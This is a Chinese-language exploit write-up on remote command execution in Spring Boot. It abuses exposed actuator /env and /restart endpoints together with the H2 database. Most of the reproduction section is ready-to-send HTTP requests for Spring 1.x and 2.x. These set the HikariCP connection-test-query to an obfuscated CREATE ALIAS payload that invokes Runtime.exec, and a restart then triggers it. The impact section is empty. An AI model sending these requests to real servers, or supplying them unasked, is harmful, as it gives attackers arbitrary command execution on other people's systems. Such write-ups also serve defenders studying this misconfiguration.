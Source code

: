 Spring Boot h2 database query rce
=================================

一、漏洞简介
------------

H2 database是一款Java内存数据库，多用于单元测试。H2
database自带一个Web管理页面，在Spirng开发中，如果我们设置如下选项，即可允许外部用户访问Web管理页面，且没有鉴权：

    spring.h2.console.enabled=true
    spring.h2.console.settings.web-allow-others=true

利用这个管理页面，我们可以进行JNDI注入攻击，进而在目标环境下执行任意命令。

#### 利用条件：

-   可以 POST 请求目标网站的 `/env` 接口设置属性
-   可以 POST 请求目标网站的 `/restart` 接口重启应用（存在
    spring-boot-starter-actuator 依赖）
-   存在 `com.h2database.h2` 依赖（版本要求暂未知）

二、漏洞影响
------------

三、复现过程
------------

### 漏洞原理

1.  spring.datasource.hikari.connection-test-query
    属性被设置为一条恶意的 `CREATE ALIAS` 创建自定义函数的 SQL 语句
2.  其属性对应 HikariCP 数据库连接池的 connectionTestQuery
    配置，定义一个新数据库连接之前被执行的 SQL 语句
3.  restart 重启应用，会建立新的数据库连接
4.  如果 SQL
    语句中的自定义函数还没有被执行过，那么自定义函数就会被执行，造成 RCE
    漏洞

### 漏洞复现

##### 步骤一：设置 spring.datasource.hikari.connection-test-query 属性

> ⚠️ 下面payload 中的 \'T5\' 方法每一次执行命令后都需要更换名称 (如 T6)
> ，然后才能被重新创建使用，否则下次 restart 重启应用时漏洞不会被触发

spring 1.x（无回显执行命令）

    POST /env
    Content-Type: application/x-www-form-urlencoded

    spring.datasource.hikari.connection-test-query=CREATE ALIAS T5 AS CONCAT('void ex(String m1,String m2,String m3)throws Exception{Runti','me.getRun','time().exe','c(new String[]{m1,m2,m3});}');CALL T5('cmd','/c','calc');

spring 2.x（无回显执行命令）

    POST /actuator/env
    Content-Type: application/json

    {"name":"spring.datasource.hikari.connection-test-query","value":"CREATE ALIAS T5 AS CONCAT('void ex(String m1,String m2,String m3)throws Exception{Runti','me.getRun','time().exe','c(new String[]{m1,m2,m3});}');CALL T5('cmd','/c','calc');"}

##### 步骤二：重启应用

spring 1.x

    POST /restart
    Content-Type: application/x-www-form-urlencoded

spring 2.x

    POST /actuator/restart
    Content-Type: application/json
